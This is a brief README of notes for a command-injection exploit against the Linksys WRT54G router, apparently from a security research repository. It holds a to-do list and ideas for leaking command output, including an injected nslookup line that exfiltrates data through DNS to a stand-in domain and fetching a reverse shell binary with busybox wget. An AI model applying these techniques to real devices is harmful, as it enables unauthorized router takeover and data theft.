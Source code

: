 # Exploiting Linksys WRT54G

### TODOs
- Use argparse and make the exploit an executable.
- Start the reverse shell server within the exploit itself.


### Wonders & Thoughts
- If `ui_language` is stored in nvram (Non-Volatile Memory), how come it fixes itself upon reboot?


### Leads for leaking command output
- Config the attacker as the DNS server and force the router to issue DNS requests with the command output.  
  Like ```nslookup `whoami`.fake.domain```
- Look for file paths that are displayed within the web interface that command output can be written to.
- Use `busybox wget` to download reverse shell binary to the router.


[Firmware Download Link](https://www.linksys.com/us/support-article?articleNum=148648)
